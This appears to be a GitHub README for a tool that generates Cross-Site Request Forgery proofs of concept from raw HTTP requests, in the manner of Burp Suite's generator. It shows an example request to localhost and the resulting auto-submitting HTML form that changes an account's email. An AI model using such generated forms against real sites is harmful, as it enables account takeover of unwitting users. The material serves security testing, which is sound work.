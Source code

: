 # CSRF Proof Of Concept Generator
The script can generate the proof of concept for Cross-Site Request Forgery vulnerability. Script recognizes GET and POST methods and request parameters. This script works similar to `CSRF PoC Generator` in `Burp Suite Professional`.

# Installation
```
git clone https://github.com/sz7mon/CSRF_PoC_Generator
```
```
cd CSRF_PoC_Generator
```
```
pip3 install -r requirements.txt
```
# Usage
```
python3 csrf_poc.py <request_file>
```
***
### Example Request File
```
POST /my-account/change-email HTTP/1.1
Host: localhost
Cookie: session=QGKPUjL6KfwAzAatWSrl40aGrgpDxT9a
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Connection: close

email=test%40test.com&csrf=YFm7wFHwvaAjXVtCLc7u6kI4BFeszoZu
```
***
### Example Output File
```
<html>
<body>
<form action="https://localhost/my-account/change-email" method="POST">

<input type="hidden" name="email" value="test@test.com" />

<input type="hidden" name="csrf" value="YFm7wFHwvaAjXVtCLc7u6kI4BFeszoZu" />

</form>
<script>
document.forms[0].submit();
</script>
</body>
</html> 
```
